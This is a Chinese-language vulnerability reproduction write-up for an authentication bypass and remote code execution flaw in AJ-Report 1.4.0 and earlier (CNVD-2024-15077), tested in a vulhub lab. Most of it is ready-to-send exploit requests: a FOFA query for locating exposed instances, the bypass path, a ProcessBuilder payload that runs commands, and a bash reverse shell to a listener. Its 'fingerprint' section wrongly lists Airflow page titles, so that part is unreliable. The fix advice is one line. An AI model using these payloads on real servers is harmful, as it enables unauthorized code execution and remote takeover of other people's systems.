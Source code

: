 # AJ-Report 认证绕过与远程代码执行漏洞

## 漏洞编号

CNVD-2024-15077



## 漏洞描述

AJ-Report是一个全开源的BI平台。

酷炫大屏展示，能随时随地掌控业务动态，让每个决策都有数据支撑。多种数据源支持，内置mysql，elasticsearch，kudu等多种驱动，支持自定义数据集省去数据接口开发，支持17+种大屏组件

在其1.4.0版本及以前，存在一处认证绕过漏洞，攻击者利用该漏洞可以绕过权限校验并执行任意代码



## 影响范围

AJ-Report <=1.4.0



## FOFA搜索

```
title="AJ-Report" && status_code="200"
```



## 指纹信息

```
<title>Airflow - DAGs</title>
<title>Airflow - Login</title>
```





## 环境部署

vulhub

```
docker-compose up -d
docker-compose ps
```

![image-20250410183715585](./assets/image-20250410183715585.png)

![image-20250410202526052](./assets/image-20250410202526052.png)



## 漏洞复现

访问192.168.23.15:9095

![image-20250410202655782](./assets/image-20250410202655782.png)



抓包



修改数据包为POST

```
POST /dataSetParam/verification;swagger-ui/
```

添加请求体

```
{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

即执行id

![image-20250410203055675](./assets/image-20250410203055675.png)



但是会提示

```
"Content type 'application/octet-stream' not supported"
```



添加

```
Content-Type: application/json;charset=UTF-8
```

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.1.15:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/json;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 341

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```

![](./assets/image-20250410203129916.png)

成功rce



尝试反弹shell

本地开启监听

```
nc -lvp 443
```

![image-20250410203414403](./assets/image-20250410203414403.png)



修改数据包

```
\"bash\",\"-c\",\"bash -i >& /dev/tcp/192.168.1.21/443 0>&1\"
```

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.1.15:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/json;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 396

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"bash\",\"-c\",\"bash -i >& /dev/tcp/192.168.1.21/443 0>&1\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```

![image-20250410203454538](./assets/image-20250410203454538.png)



![image-20250410203501727](./assets/image-20250410203501727.png)

成功弹回shell





## 修复方案

- 升级到高版本
